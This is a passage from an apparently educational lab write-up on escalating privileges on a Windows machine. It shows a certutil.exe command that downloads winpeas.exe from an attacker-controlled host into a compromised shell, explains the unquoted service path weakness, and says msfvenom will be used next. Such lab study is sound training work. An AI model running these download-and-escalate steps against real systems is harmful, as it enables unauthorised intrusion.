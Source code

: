 Back in the windows machine, we can download the file using the `cerutil.exe` command:

```bash
c:\Users\butler>certutil.exe -urlcache -f http://10.0.2.4/winpeas.exe winpeas.exe
certutil.exe -urlcache -f http://10.0.2.4/winpeas.exe winpeas.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\Users\butler>dir  
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Users\butler

01/26/2024  09:34 AM    <DIR>          .
01/26/2024  09:34 AM    <DIR>          ..
08/14/2021  04:16 AM    <DIR>          .groovy
08/14/2021  03:54 AM    <DIR>          3D Objects
08/14/2021  03:54 AM    <DIR>          Contacts
08/14/2021  03:54 AM    <DIR>          Desktop
08/14/2021  03:54 AM    <DIR>          Documents
08/14/2021  04:23 AM    <DIR>          Downloads
08/14/2021  03:54 AM    <DIR>          Favorites
08/14/2021  03:54 AM    <DIR>          Links
08/14/2021  03:54 AM    <DIR>          Music
08/14/2021  03:56 AM    <DIR>          OneDrive
08/14/2021  03:55 AM    <DIR>          Pictures
08/14/2021  03:54 AM    <DIR>          Saved Games
08/14/2021  03:55 AM    <DIR>          Searches
08/14/2021  03:54 AM    <DIR>          Videos
01/26/2024  09:34 AM         2,387,456 winpeas.exe
               1 File(s)      2,387,456 bytes
              16 Dir(s)  11,417,591,808 bytes free
```

Run the file using `winpeas.exe`

There will be a lot of information to sift through. But the goal is to look for “quick wins” something we can use to escalate privileges without using up too much time.

Eventually we’ll find something related to the WiseCare365 application from earlier:

![winpeas](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/c339b5c3-0aa3-421f-8fd4-92db69fbb8f4)

This is an example of an unquoted service path. This is where you have a path to a service executable and the folder names along that path have spaces in them without quotations. This allows one to inject a malicious file within that path for the system to execute. Read more about the Unqouted Service Path vulnerability [here](https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths).

So basically we need to create a malicious executable. And one of the best ways to do that is using the tool `msfvenom`.
